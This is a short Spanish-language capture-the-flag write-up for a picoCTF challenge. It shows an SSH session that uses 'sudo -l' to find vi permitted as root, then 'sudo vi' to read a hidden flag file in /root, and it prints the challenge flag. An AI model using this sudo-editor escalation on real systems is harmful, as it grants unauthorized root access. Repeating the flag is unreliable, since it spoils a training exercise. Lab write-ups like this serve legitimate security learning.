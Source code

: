 ## Objetivo 
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
## Solución  
```bash
kali@KaliEND:~/Downloads/PicoCTF/parte4$ ssh -p 59546 picoplayer@saturn.picoctf.net  
The authenticity of host '[saturn.picoctf.net]:59546 ([13.59.203.175]:59546)' can't be established.  
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.  
This host key is known by the following other names/addresses:  
   ~/.ssh/known_hosts:1: [hashed name]  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[saturn.picoctf.net]:59546' (ED25519) to the list of known hosts.  
picoplayer@saturn.picoctf.net's password:    
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage  
  
This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.  
  
To restore this content, you can run the 'unminimize' command.  
  
The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
applicable law.  
  
picoplayer@challenge:~$ ls /  
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr  
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var  
picoplayer@challenge:~$ sudo -l  
[sudo] password for picoplayer:    
Matching Defaults entries for picoplayer on challenge:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User picoplayer may run the following commands on challenge:  
   (ALL) /usr/bin/vi  
picoplayer@challenge:~$ sudo vi  
  
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}  
  
Press ENTER or type command to continue  
picoplayer@challenge:~$
```
## Notas Adicionales 
use el comando sudo vi para abrir el editor vi con permisos de superusuario y posteriormente use ls -la para ver los archivos y vi que dentro habia un .txt oculto llamado .flag.txt y posteriormente hice cat /root/.flag.txt
### Referencias

